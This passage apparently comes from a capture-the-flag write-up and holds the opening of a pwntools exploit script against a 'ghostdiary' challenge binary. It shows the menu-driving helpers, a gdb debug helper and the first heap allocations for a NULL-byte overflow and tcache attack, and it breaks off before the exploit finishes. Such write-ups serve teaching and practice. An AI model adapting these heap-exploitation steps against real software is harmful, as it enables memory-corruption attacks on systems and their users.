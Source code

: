 #### Final exploit

```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

elf = ELF('./ghostdiary')
p = process('./ghostdiary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Credits to teamrocketist for the following two functions, they help immensely when trying
# to debug exploits
def get_base_address(proc):
  return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
  script = ""
  PIE = get_base_address(p)
  for bp in breakpoints:
    script += "b *0x%x\n"%(PIE+bp)
  gdb.attach(p,gdbscript=script)

# Application logic functions
def add(size):
  p.sendlineafter('> ', '1')

  if size <= 0xf0:
    p.sendlineafter('> ', '1')
  else:
    p.sendlineafter('> ', '2')

  p.sendlineafter(': ', str(size))

def talk(page, content):
  p.sendlineafter('> ', '2')
  p.sendlineafter(': ', str(page))
  p.sendafter(': ', str(content))

def listen(page):
  p.sendlineafter('> ', '3')
  p.sendlineafter(': ', str(page))
  content = p.recvline().split(': ')[1].strip('\n')
  return content

def free(page):
  p.sendlineafter('> ', '4')
  p.sendlineafter(': ', str(page))

if args.GDB:
  debug([0x1024])

# Exploit goes here

# Setup
add(0x128) # A, idx 0
add(0x118) # B, idx 1
add(0x118) # C, idx 2

# Fill up tcache bin 0xf0
# Done because the NULL byte overflow will unset the PREV_INUSE bit of the next chunk
```